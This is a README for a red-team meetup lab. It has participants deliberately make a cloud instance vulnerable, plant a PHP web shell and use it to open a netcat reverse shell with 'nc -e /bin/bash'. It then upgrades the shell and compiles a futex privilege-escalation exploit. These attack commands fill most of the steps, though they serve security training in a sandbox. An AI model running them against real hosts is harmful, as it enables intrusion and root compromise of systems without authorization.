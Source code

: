 # Launch Meetup and Hack Night

Refer to [Meetup page](https://www.meetup.com/redteamproject/events/259624820/) for details.

## Artifacts

* [Qwiklabs site](https://ce.qwiklabs.com/focuses/12629) (yes, the name doesn't make sense; I'm reusing another workshop)
* [Setup script](setup.sh), launch from Cloud Shell
* [Blue Ansible playbook](blue.yml)
* [Red Ansible playbook](red.yml)

## Instructions

1. Select your qwiklabs project from the dropdown menu in the top blue bar, i.e., ```qwiklabs-gcp-fa603bc97e11059a```
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/redteam-project/meetup.git
cd meetup/20190321
```

4. Run the setup script `./setup.sh`
5. SSH to the blue instance `gcloud compute ssh blue-1 --zone us-east4-a`
6. Update and install packages

```
sudo su -
yum update -y
yum install -y git ansible python-pip
```

7. Clone the `meetup`, `cyber-range-target`, and `exploit-curation` repos

```
git clone https://github.com/redteam-project/meetup
git clone https://github.com/redteam-project/cyber-range-target
git clone https://github.com/redteam-project/exploit-curation
```

8. Make this instance vulnerable to Shellshock and libfutex

```
ansible-playbook meetup/20190321/blue.yml
```

9. Wait for the instance to reboot, then re-log in

```
gcloud compute ssh blue-1 --zone us-east4-a
```

10. Now scan for exploitable vulnerabilities with `lem`

```
sudo su -
virtualenv venv
source venv/bin/activate
pip install lem
lem host assess --curation exploit-curation --kind stride --score 090000
lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell instances and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
yum install -y nmap-ncat
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the IP addresses with your blue-1 and red-1 IPs, respectively.

```
curl -X GET 'http://10.150.0.6/index.php?cmd=nc%20-nv%2010.150.0.7%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a reverse shell to `blue-1`. Use this Python trick to get a tty and invoke bash.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root. **EDIT** - this doesn't appear to work in GCE, which is exactly why this project matters. See the relevant [exploit-curation enhancement bug](https://github.com/redteam-project/exploit-curation/issues/1) to track progress, and check back later for an updated lab.

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```
